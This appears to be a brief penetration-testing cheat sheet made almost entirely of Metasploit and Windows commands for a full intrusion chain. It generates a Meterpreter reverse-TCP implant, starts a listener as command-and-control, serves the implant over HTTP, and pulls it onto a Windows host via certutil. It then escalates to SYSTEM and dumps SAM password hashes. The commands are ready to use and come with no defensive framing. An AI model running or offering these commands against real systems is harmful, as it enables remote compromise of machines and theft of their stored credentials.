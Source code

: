 # msf
## generate implant  
msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=<OWN IP || INTERFACE> -f exe -o implant.exe  
## start c2  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter_reverse_tcp  
set lport 443  
set lhost <OWN IP || INTERFACE>  
run -j  
## start webserver for implant download
python3 -m http.server 80
## windows LOLBIN basic download of implant
certutil -urlcache -f http://<OWN IP>/implant.exe implant.exe  

# IAoT
## attempt to get SYSTEM privs
getsystem  
## dump SAM
hashdump
